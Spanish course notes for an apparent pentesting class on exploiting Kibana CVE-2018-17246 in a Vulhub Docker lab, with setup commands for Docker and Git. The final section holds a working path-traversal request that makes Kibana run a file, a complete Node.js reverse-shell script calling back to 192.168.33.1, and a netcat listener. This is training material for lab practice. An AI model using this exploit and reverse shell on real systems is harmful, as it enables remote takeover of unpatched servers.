**AVISO**: En caso de que veáis que no estáis pudiendo instalar ‘**nano**‘ o alguna utilidad en el contenedor, eliminad todo el contenido del archivo ‘**/etc/apt/sources.list**‘ existente en el CONTENEDOR y metedle esta línea:

- **deb http://archive.debian.org/debian/ jessie contrib main non-free**
    

Posteriormente, haced un ‘**apt update**‘ y probad a instalar nuevamente la herramienta que queráis, ya no os debería de dar problemas.

Si estáis enfrentando dificultades con el contenedor de Elasticsearch y notáis que el contenedor no se crea después de ejecutar ‘**docker-compose up -d**‘, intentad modificar un parámetro del sistema con el siguiente comando en la consola:

- **sudo sysctl -w vm.max_map_count=262144**‘.

Después de hacerlo, intentad de nuevo ejecutar ‘**docker-compose up -d**‘, se debería solucionar el problema.

A continuación, os proporcionamos el enlace al proyecto de Github que estamos usando para esta clase:

- **Vulhub**: [https://github.com/vulhub/vulhub](https://github.com/vulhub/vulhub)

Asimismo, por aquí os compartimos el enlace al recurso donde se nos ofrece el script en Javascript encargado de establecer la Reverse Shell:

- **NodeJS Reverse Shell**: [https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell](https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell)

## Clonar una sub-carpeta
Para clonar solo una subcarpeta específica de un repositorio de GitHub, puedes usar la herramienta [git-sparse-checkout](https://git-scm.com/docs/git-sparse-checkout). Aquí tienes los pasos para hacerlo:

1. Clona el repositorio en modo “bare” (sin contenido):
```bash
git clone --no-checkout https://github.com/vulhub/vulhub.git

cd vulhub
```
2. Habilita sparse-checkout:
```bash
git sparse-checkout init --cone
```
3. Especifica la subcarpeta que deseas clonar (en este caso, kibana/CVE-2018-17246):
```bash
git sparse-checkout set kibana/CVE-2018-17246
```
4. Obtén solo el contenido de esa subcarpeta:
```bash
git checkout
```


## Docker Compose
```bash

-- Para instalar
sudo curl -L "[https://github.com/docker/compose/releases/latest/download/docker-compose-$(uname](https://github.com/docker/compose/releases/latest/download/docker-compose-$(uname) -s)-$(uname -m)" -o /usr/local/bin/docker-compose

-- Otorgar permisos
sudo chmod +x /usr/local/bin/docker-compose
````
### Comandos docker
```Python
docker images

docker ps

docker port <NameContainer>

docker-compose logs 
```
### Recursos para hacer Local File Inclusion
##### Petición para ejecutar archivos por kibana
```bash
curl -s -X GET "http://localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../tmp/reverse.js"
```
##### Reverse.js
```javascript 
(function(){  
    var net = require("net"),  
        cp = require("child_process"),  
        sh = cp.spawn("/bin/sh", []);  
    var client = new net.Socket();  
    client.connect(8080, "192.168.33.1", function(){  
        client.pipe(sh.stdin);  
        sh.stdout.pipe(client);  
        sh.stderr.pipe(client);  
    });  
    return /a/; // Prevents the Node.js application form crashing  
})();
```
##### Ponerse en escucha por el puerto 443
```bash
sudo nc -nlvp 443

--Consola con prompt 
script /dev/null -c bash

```
